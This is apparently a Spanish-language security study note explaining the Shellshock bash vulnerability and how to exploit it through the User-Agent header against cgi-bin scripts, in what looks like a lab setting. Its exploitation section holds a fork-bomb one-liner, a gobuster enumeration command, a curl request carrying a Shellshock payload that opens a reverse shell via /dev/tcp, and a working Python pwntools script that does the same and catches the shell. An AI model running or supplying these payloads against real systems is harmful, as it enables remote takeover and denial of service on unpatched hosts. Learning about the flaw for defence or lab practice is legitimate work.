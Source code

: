 ----
- Tags: #ataques #basico #teoria #practica
----

# ¿ Que es un **ataque ShellShock** ? 

### Un ataque **ShellShock** es un tipo de ataque informático que aprovecha una vulnerabilidad en el **intérprete de comandos bash** en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática. 

### Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar porgramas maliciosos, etc. 

### La vulnerabilidad ShellShock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de Shell. El problema radica en la forma en que Bahs maneja las variable de entorno. Los atacantes pueden inyectar código malicoso en estas variables de entorno, las cuales Bash ejecuta sin cuestion su origin o contenido. 

### Los atacantes pueden explotar estas vulnerabilidades a través de diferentes vectores de atauqe. Uno de ellos es a través del User-Agent, que es la información que el navegador web envía al servidor web para indentifcar el tipo de navegador y sistema operativo qu está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

---

# Expotación 

### Para explotar un ShellShock Attack, es importante tener en cuenta que para saber si este es vulnerable, es necesario probarlo, asi como tener en cuenta que este funciona para viejas versiones de bash. 

### Existen [páginas webs](https://blog.cloudflare.com/inside-shellshock/) que enseñan a explotar dicha vulnerabilidad, esto suele ser posible a traves del **User-Agent** el cual recibe como valor un payload con la sig. estructura: `() { :; }; echo; <commando_to_execute>`. Este payload es simpilar al del [Fork Bomb Attack](https://en.wikipedia.org/wiki/Fork_bomb) el cual es un ataque de denegación de servicio con la estructura de: 
```shell 
:(){:|:&};:
# O 
fork(){
	fork | fork &
}; 
fork 

```

### Por lo que se podria tramitar una petición curl de la sig. manera, teniendo en cuenta que mediante *gobuster* se encontro por fuzzing la URL **cig-bin**, sabiendo que siempre que veamos una ruta como esta es importante probar un **ShellShock Attack**: 

```shell
# Es importante al descubrir un dir cgi-bin, buscar archivos con la extensión pl o sh o cgi. 
gobuster dir -u http://<ip>:<port>/cgi-bin --proxy http://<proxy_ip>:<proxy_port> -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi
```

```shell
curl --proxy http://<proxy_ip>:<proxy_port> -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i &>/dev/tcp/<own_ip>/<port> 0>&1'" "http://<ip>:<port>/cgi-bin/status"
```

### Así mismo, podriamos crear un script en python para entablar una consola interactiva o mismo para ejecutar comandos 

```python
#!/usr/bin/python3 

import sys, signal, requests 
from pwn import * 

# Ctrl + c

def ctrl_c(sig, frame): 
    print("\n\n[!] Saliendo...\n\n")
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c)

# Global vars 

url = "http://192.168.1.38/cgi-bin/status"
squid_proxy = {'http': 'http://192.168.1.38:3128'}
lport = 443

# Bin 

def shell_shock(): #command 

    headers = {'User-Agent':'() { :; }; echo; /bin/bash -c "/bin/bash -i &>/dev/tcp/192.168.1.35/443 0>&1"'}
    #user_agent = {'User-Agent': '() { :; }; echo; %s' % (command)} 

    r = requests.get(url, headers=headers, proxies=squid_proxy)
    #print("\n\n\t(!) Output del comando: %s" % (r.text))

if __name__ == "__main__": 
    #command = input("Ingrese un comando a ejecutar: ")
    #shell_shock(command)
    try:
        threading.Thread(target=shell_shock, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        log.failure("No se pudo establecer la conexión")
        sys.exit(1)
    else: 
        shell.interactive()
```
